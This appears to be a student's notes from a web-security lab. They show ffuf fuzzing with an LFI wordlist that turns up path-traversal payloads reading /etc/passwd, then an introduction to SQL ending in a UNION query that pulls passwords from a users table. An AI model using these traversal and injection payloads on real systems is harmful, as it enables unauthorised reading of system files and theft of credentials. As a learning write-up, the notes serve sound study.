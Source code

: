 ```python
┌──(cyber㉿kali)-[~/tmp]
└─$ ffuf -request api-req.txt -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
```

Now we will get a lot of result so narrow it down if notice that the word count is 19 so putting a filter would work
```python 
┌──(cyber㉿kali)-[~/tmp]
└─$ ffuf -request api-req.txt -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19
```

copy the payload and check it using burp 
`..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00`

Still receiving a warning So again make a filter by observing the request and word count
```python
┌──(cyber㉿kali)-[~/tmp]
└─$ ffuf -request api-req.txt -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19,20
```

We got this payload 
`....//....//....//....//....//....//....//....//....//etc/passwd`

use it and Boom !! lab solved 
# ==Introduction to SQL Injection==

![[../Screenshot from 2024-06-13 05-39-41.png]]
Commands
`show databses;` -> use to show created data bases
`use DATA_BASE_NAME;`-> use to select the specific data 
`show tables;`->use to list the created tables
`select * from users;`-> use to select the tables item
`select age from users where username="jeremy";`
To select both users age on the basis of their usernames
`select age from users where username="jeremy" or username="jessamy";`
This would be call a SQL attack
```ts
MariaDB [sqldemo]> select age from users where username="jeremy" union select password from users;
+---------+
| age     |
+---------+
| 30      |
| letmein |
| kittems |
+---------+
3 rows in set (0.001 sec)

MariaDB [sqldemo]> 
```
